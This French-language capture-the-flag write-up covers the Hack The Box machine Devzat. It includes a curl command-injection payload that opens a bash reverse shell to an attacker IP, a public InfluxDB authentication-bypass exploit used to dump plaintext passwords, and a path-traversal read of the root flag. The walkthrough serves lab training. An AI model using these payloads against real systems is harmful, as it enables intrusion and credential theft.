



**_HTB_**


## **NMAP**

```
❯ nmap -sC -sV devzat.htb
Starting Nmap 7.92 ( https://nmap.org ) at 2021-10-25 14:51 CEST
Nmap scan report for devzat.htb (10.10.11.118)
Host is up (0.091s latency).
Not shown: 997 closed tcp ports (conn-refused)
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   3072 c2:5f:fb:de:32:ff:44:bf:08:f5:ca:49:d4:42:1a:06 (RSA)
|   256 bc:cd:e8:ee:0a:a9:15:76:52:bc:19:a4:a3:b2:ba:ff (ECDSA)
|_  256 62:ef:72:52:4f:19:53:8b:f2:9b:be:46:88:4b:c3:d0 (ED25519)
80/tcp   open  http    Apache httpd 2.4.41
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: devzat - where the devs at
8000/tcp open  ssh     (protocol 2.0)
| ssh-hostkey:
|_  3072 6a:ee:db:90:a6:10:30:9f:94:ff:bf:61:95:2a:20:63 (RSA)
| fingerprint-strings:
|   NULL:
|_    SSH-2.0-Go
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port8000-TCP:V=7.92%I=7%D=10/25%Time=6176A857%P=x86_64-pc-linux-gnu%r(N
SF:ULL,C,"SSH-2\.0-Go\r\n");
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

## **HTTP ENUMERATION**



Le site web parle d'un service de chat utilisant ssh sur le port 8000.
Dans le code source il est mentioné HTML5UP, qui sont des template
de html css et js.De plus nous ne remarquons pas de feature étrange sur le site,
le site ne semble pas exploitable

## **SERVICE SSH PORT 8000**



nous arrivons dans un system de chat textuelle avec un peu d'enumeration
l'on remarque plein de feature de mini jeu, le pendu le morpions, etc.
avec quelques essai d'injection de commandes.
Le service ne semble pas vulnerable

## **HTTP SUBDOMAIN**

Les deux services ne semble pas vulnerable, essayons de fuzz le site web
ainsi que les subdomain pour essayer de trouver quelque chose d'interessant.
Il ce trouvera que le fuzz de subdomain est concluant

```
❯ wfuzz -c  -w /home/poney/Wordlist/./subdomains-top1million-5000.txt -u 'http://devzat.htb' -H "Host: FUZZ.devzat.htb"  --hw 26
********************************************************
* Wfuzz 3.1.0 - The Web Fuzzer                         *
********************************************************

Target: http://devzat.htb/
Total requests: 4989

=====================================================================
ID           Response   Lines    Word       Chars       Payload                          
=====================================================================

000003745:   200        20 L     35 W       510 Ch      "pets"
```

## **HTTP SUBDOMAIN pets.devzat.htb**



nous trouvons rapidement un répertoire .git qui nous donne acces aux code

```
❯ wget -r http://pets.devzat.htb/.git
[...]
❯ git reset --hard
HEAD est maintenant à ef07a04 back again to localhost only
```

Nous pouvons maintenant analyser le code.
dans le fichier main.go nous trouvons un élément interessant

```
func loadCharacter(species string) string {
	cmd := exec.Command("sh", "-c", "cat characteristics/"+species)
	stdoutStderr, err := cmd.CombinedOutput()
	if err != nil {
		return err.Error()
	}
	return string(stdoutStderr)
}
```

L'injection de commande saute aux yeux nous allons modifier la requests web pour ajouter
un ; et une autre commande

```
❯ curl 'http://pets.devzat.htb/api/pet' \
  --data-raw '{"name":"aze","species":"cat;/bin/bash -c \"/bin/bash -i >& /dev/tcp/10.10.14.6/1234 0>&1\""}' \
  --compressed \
  --insecure
```

## **PRIVESC**

nous avons maintenant access aux code source des deux sites web et ainsi
que du chat.
Dans le code du systeme de chat l'on voit des message de bienvenue si l'on prend le
user admin catherine ou patrick.

```
if strings.ToLower(u.name) == "patrick" {
    u.writeln("admin", "Hey patrick, you there?")
    u.writeln("patrick", "Sure, shoot boss!")
    u.writeln("admin", "So I setup the influxdb for you as we discussed earlier in business meeting.")
    u.writeln("patrick", "Cool :thumbs_up:")
    u.writeln("admin", "Be sure to check it out and see if it works for you, will ya?")
    u.writeln("patrick", "Yes, sure. Am on it!")
    u.writeln("devbot", "admin has left the chat")
} else if strings.ToLower(u.name) == "admin" {
    u.writeln("admin", "Hey patrick, you there?")
    u.writeln("patrick", "Sure, shoot boss!")
    u.writeln("admin", "So I setup the influxdb for you as we discussed earlier in business meeting.")
    u.writeln("patrick", "Cool :thumbs_up:")
    u.writeln("admin", "Be sure to check it out and see if it works for you, will ya?")
    u.writeln("patrick", "Yes, sure. Am on it!")
} else if strings.ToLower(u.name) == "catherine" {
    u.writeln("patrick", "Hey Catherine, glad you came.")
    u.writeln("catherine", "Hey bud, what are you up to?")
    u.writeln("patrick", "Remember the cool new feature we talked about the other day?")
    u.writeln("catherine", "Sure")
    u.writeln("patrick", "I implemented it. If you want to check it out you could connect to the local dev instance on port 8443.")
    u.writeln("catherine", "Kinda busy right now :necktie:")
    u.writeln("patrick", "That's perfectly fine :thumbs_up: You'll need a password I gave you last time.")
    u.writeln("catherine", "k")
    u.writeln("patrick", "I left the source for your review in backups.")
    u.writeln("catherine", "Fine. As soon as the boss let me off the leash I will check it out.")
    u.writeln("patrick", "Cool. I am very curious what you think of it. See ya!")
    u.writeln("devbot", "patrick has left the chat")
```

1. Deux choses sont interresantes la présence de la meme app de chat en dev sur le port 8443
qui poséde une nouvelle feature interessante.
2. Un service influxdb qui tourne sur la machine.
3. les sources ont sont dans des backups

Le service en dev tourne avec les droits root il est dont interresant.
Nous Trouvons vite les fichiers de backups dans /var/backups

## **FORWARD LES PORT 8443 ET 8086**

```
ssh -NL 8443:127.0.0.1:8443 patrick@devzat.htb -i id_rsa
ssh -NL 8086:127.0.0.1:8086 patrick@devzat.htb -i id_rsa
```

Nous pouvons maintenant passer nmap sur les deux services

## **DEVZAT-DEV**

Aprés un peu d'enumeration sur le nouveau service quelque chose
nous saute aux yeux la commande /file qui permet de lire un fichier
malheureusement cette commande nous demande un password.

```
❯ ssh -l aze 127.0.0.1 -p 8443
The authenticity of host '[127.0.0.1]:8443 ([127.0.0.1]:8443)' can't be established.
ED25519 key fingerprint is SHA256:liAkhV56PrAa5ORjJC5MU4YSl8kfNXp+QuljetKw0XU.
This key is not known by any other names
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '[127.0.0.1]:8443' (ED25519) to the list of known hosts.
Welcome to the chat. There are no more users
devbot: aze has joined the chat
aze: /commands
[SYSTEM] Commands
[SYSTEM] clear - Clears your terminal
[SYSTEM] message - Sends a private message to someone
[SYSTEM] users - Gets a list of the active users
[SYSTEM] all - Gets a list of all users who has ever connected
[SYSTEM] exit - Kicks you out of the chat incase your client was bugged
[SYSTEM] bell - Toggles notifications when you get pinged
[SYSTEM] room - Changes which room you are currently in
[SYSTEM] id - Gets the hashed IP of the user
[SYSTEM] commands - Get a list of commands
[SYSTEM] nick - Change your display name
[SYSTEM] color - Change your display name color
[SYSTEM] timezone - Change how you view time
[SYSTEM] emojis - Get a list of emojis you can use
[SYSTEM] help - Get generic info about the server
[SYSTEM] tictactoe - Play tictactoe
[SYSTEM] hangman - Play hangman
[SYSTEM] shrug - Drops a shrug emoji
[SYSTEM] ascii-art - Bob ross with text
[SYSTEM] example-code - Hello world!
[SYSTEM] file - Paste a files content directly to chat [alpha]
aze: /file
[SYSTEM] Please provide file to print and the password
aze: /file /root/root.txt aze
[SYSTEM] You did provide the wrong password
aze:
```

## **INFLUXDB**

```
❯ nmap -sC -sV 127.0.0.1 -p 8086
Starting Nmap 7.92 ( https://nmap.org ) at 2021-10-25 21:40 CEST
Nmap scan report for arch (127.0.0.1)
Host is up (0.00011s latency).

PORT     STATE SERVICE VERSION
8086/tcp open  http    InfluxDB http admin 1.7.5
|_http-title: Site doesn't have a title (text/plain; charset=utf-8).
```
Nous trouvons rapidement une exploit compatible avec notre version de influxdb.

https://github.com/LorenzoTullini/InfluxDB-Exploit-CVE-2019-20933

L'exploit as besoin d'une list de user on prend naturellement tout les users
que l'on a croiser sur la box.

```
patrick
catherine
root
admin
```

```
Start username bruteforce
[x] patrick
[x] catherine
[x] root
[v] admin
```

Nous avons access a la base de donnée influxdb.
Nous pouvons maintenant dumper la table.

```
[devzat] Insert query (exit to change db): show field keys;
{
    "results": [
        {
            "series": [
                {
                    "columns": [
                        "fieldKey",
                        "fieldType"
                    ],
                    "name": "user",
                    "values": [
                        [
                            "enabled",
                            "boolean"
                        ],
                        [
                            "password",
                            "string"
                        ],
                        [
                            "username",
                            "string"
                        ]
                    ]
                }
            ],
            "statement_id": 0
        }
    ]
}
```

La table user est trés interessante.

```
[devzat] Insert query (exit to change db): select * from "user";
{
    "results": [
        {
            "series": [
                {
                    "columns": [
                        "time",
                        "enabled",
                        "password",
                        "username"
                    ],
                    "name": "user",
                    "values": [
                        [
                            "2021-06-22T20:04:16.313965493Z",
                            false,
                            "WillyWonka2021",
                            "wilhelm"
                        ],
                        [
                            "2021-06-22T20:04:16.320782034Z",
                            true,
                            "woBeeYareedahc7Oogeephies7Aiseci",
                            "catherine"
                        ],
                        [
                            "2021-06-22T20:04:16.996682002Z",
                            true,
                            "RoyalQueenBee$",
                            "charles"
                        ]
                    ]
                }
            ],
            "statement_id": 0
        }
    ]
}
```

Aprés quelques essais nous trouvons le bon password pour l'utilisateur catherine.
> catherine woBeeYareedahc7Oogeephies7Aiseci

Nous pouvons maintenant lire les fichiers de backups de /var/backups qui nous permetterons
de comprendre comment fonctionne la commande /file de devzat-dev.

Dans le fichier commands.go nous trouvons un password hardcodé.

```
func fileCommand(u *user, args []string) {
	if len(args) < 1 {
		u.system("Please provide file to print and the password")
		return
	}

	if len(args) < 2 {
		u.system("You need to provide the correct password to use this function")
		return
	}

	path := args[0]
	pass := args[1]

	// Check my secure password
	if pass != "CeilingCatStillAThingIn2021?" {
		u.system("You did provide the wrong password")
		return
	}

	// Get CWD
	cwd, err := os.Getwd()
	if err != nil {
		u.system(err.Error())
	}

	// Construct path to print
	printPath := filepath.Join(cwd, path)

	// Check if file exists
	if _, err := os.Stat(printPath); err == nil {
		// exists, print
		file, err := os.Open(printPath)
		if err != nil {
			u.system(fmt.Sprintf("Something went wrong opening the file: %+v", err.Error()))
			return
		}
		defer file.Close()

		scanner := bufio.NewScanner(file)
		for scanner.Scan() {
			u.system(scanner.Text())
		}

		if err := scanner.Err(); err != nil {
			u.system(fmt.Sprintf("Something went wrong printing the file: %+v", err.Error()))
		}

		return

	} else if os.IsNotExist(err) {
		// does not exist, print error
		u.system(fmt.Sprintf("The requested file @ %+v does not exist!", printPath))
		return
	}
	// bokred?
	u.system("Something went badly wrong.")
}
```

Maintenant nous pouvons passer par le service en dev qui tourne en root pour
lire le flag

```
aze: /file /root/root.txt CeilingCatStillAThingIn2021?
[SYSTEM] The requested file @ /root/devzat/root/root.txt does not exist!
aze: /file ../root.txt CeilingCatStillAThingIn2021?
[SYSTEM] ef1b3ab4fd7812cc6b74c956190fffbe
aze:
```

Nous avons récupéré le flag avec succés.

## **CONCLUSION**

Pour bien reussir cette machine il fallait bien lire les codes sources des app
qui donné tout les indices nessaire pour trouver notre chemain.
